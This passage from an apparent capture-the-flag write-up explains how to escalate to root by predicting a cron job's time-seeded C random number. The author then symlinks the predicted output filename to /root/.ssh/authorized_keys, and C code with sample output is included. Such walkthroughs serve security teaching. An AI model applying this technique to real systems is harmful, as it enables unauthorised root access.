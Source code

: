 

### Generate Exploit Script

#### Strategy

Because I can control what goes into to database I can write the four
columns such that the first points to a file I want to write, and the
next three are written to the file (space delimited). The only trick
here is that the file written to is not the first column, but the hash
of the random number concatenated with the first column. Luckily for me,
since the cron runs every minute at 1 second after the minute, I can
predict the output, and therefore calculate the filename. I can create a
symlink at this expected name such that it points to the real file I
want to write. A good file to write three space separated fields to
would be `/root/.ssh/authorized_keys`.

#### Get Rand

First I need to get the random number. As far as I know, the only way to
get the C random number generator is in C, so I wrote this little bit of
code:



    #include <stdio.h>
    #include <time.h>
    #include <stdlib.h>


    int main() {

        time_t now = time(NULL);
        time_t next = now - (now % 60) + 61;
        printf("[*] Current timestamp:    %d\n", now);
        printf("[*] Next cron will be at: %d\n", next);

        srand(next);
        printf("[+] Randon num at next:   %d\n", rand());

        return 0;
    }



It will get the current time, and then remove that time mod 60 to get
the last minute. Then it adds 61 to get to one second after the next
minute, when the cron will next run.

I'll use that time to seed the RNG, and then get the random number from
it. It works as far as I can tell:



    $ ./time_rand
    [*] Current timestamp:    1611873707
    [*] Next cron will be at: 1611873721
    [+] Randon num at next:   407664450
